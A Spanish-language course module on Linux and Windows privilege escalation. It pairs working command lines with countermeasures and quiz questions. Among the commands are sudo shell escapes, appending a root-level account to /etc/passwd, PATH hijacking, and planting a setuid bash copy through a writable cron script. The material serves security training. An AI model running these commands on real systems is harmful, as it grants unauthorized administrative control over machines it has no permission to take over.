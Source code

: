 
# Privilege Escalation - Técnicas Avanzadas

## 🎯 Objetivo
Dominar las técnicas de escalada de privilegios en sistemas Linux y Windows para obtener acceso administrativo.

## 🐧 Linux Privilege Escalation

### 1. SUID/SGID Binaries
```bash
# Buscar binarios SUID
find / -perm -4000 -type f 2>/dev/null

# Buscar binarios SGID
find / -perm -2000 -type f 2>/dev/null

# Explotar SUID bash
/bin/bash -p
```

### 2. Sudo Misconfigurations
```bash
# Verificar permisos sudo
sudo -l

# Explotar sudo sin password
sudo /usr/bin/vim
:!/bin/sh

# GTFOBins para bypass
sudo /usr/bin/find . -exec /bin/sh \; -quit
```

### 3. Kernel Exploits
```bash
# Verificar versión del kernel
uname -a
cat /proc/version

# Buscar exploits conocidos
searchsploit kernel ubuntu
```

### 4. Cron Jobs
```bash
# Verificar cron jobs
cat /etc/crontab
ls -la /etc/cron.*
crontab -l
```

### 5. Writable /etc/passwd
```bash
# Verificar permisos
ls -la /etc/passwd

# Crear usuario root
echo 'hacker:$1$hacker$TzyKlv0/8Y8mKs6K6fGOg/:0:0:root:/root:/bin/bash' >> /etc/passwd
```

## 🪟 Windows Privilege Escalation

### 1. Unquoted Service Paths
```cmd
# Buscar servicios vulnerables
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """

# Verificar permisos de escritura
accesschk.exe -uwcqv "Authenticated Users" *
```

### 2. AlwaysInstallElevated
```cmd
# Verificar registro
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

### 3. Stored Credentials
```cmd
# Buscar credenciales almacenadas
cmdkey /list
runas /savecred /user:administrator cmd.exe
```

### 4. DLL Hijacking
```cmd
# Buscar DLLs faltantes
procmon.exe
```

## 🛠️ Herramientas de Automatización

### Linux
- **LinPEAS**: Automated privilege escalation scanner
- **Linux Exploit Suggester**: Kernel exploit recommendations
- **pspy**: Process monitoring without root

### Windows
- **WinPEAS**: Windows privilege escalation scanner
- **PowerUp**: PowerShell privilege escalation script
- **Seatbelt**: Security-oriented enumeration

## 🧪 Laboratorio Práctico

### Escenario 1: SUID Binary Exploitation
```bash
# Objetivo: Explotar /usr/bin/find con SUID
find /home -exec /bin/sh \; -quit
```

### Escenario 2: Sudo PATH Manipulation
```bash
# Crear binario malicioso
echo '/bin/bash' > /tmp/ls
chmod +x /tmp/ls
export PATH=/tmp:$PATH
sudo ls
```

### Escenario 3: Writable Script in Cron
```bash
# Modificar script ejecutado por cron
echo 'cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash' >> /path/to/script.sh
# Esperar ejecución del cron
/tmp/rootbash -p
```

## 🛡️ Contramedidas

### Linux
- Audit SUID/SGID binaries regularly
- Restrict sudo access with proper configuration
- Keep kernel updated
- Monitor cron jobs and file permissions
- Implement proper file system permissions

### Windows
- Quote all service paths
- Disable AlwaysInstallElevated
- Secure stored credentials
- Implement proper DLL loading
- Use Windows Defender or equivalent AV

## 📚 Recursos Adicionales
- GTFOBins: https://gtfobins.github.io/
- LOLBAS: https://lolbas-project.github.io/
- HackTricks PrivEsc: https://book.hacktricks.xyz/
- PayloadsAllTheThings

## ✅ Verificación de Conocimientos
1. ¿Qué es un binario SUID y cómo se puede explotar?
2. ¿Cómo identificar servicios Windows vulnerables?
3. ¿Qué herramientas automatizadas recomendarías?
4. ¿Cómo prevenir escaladas de privilegios?
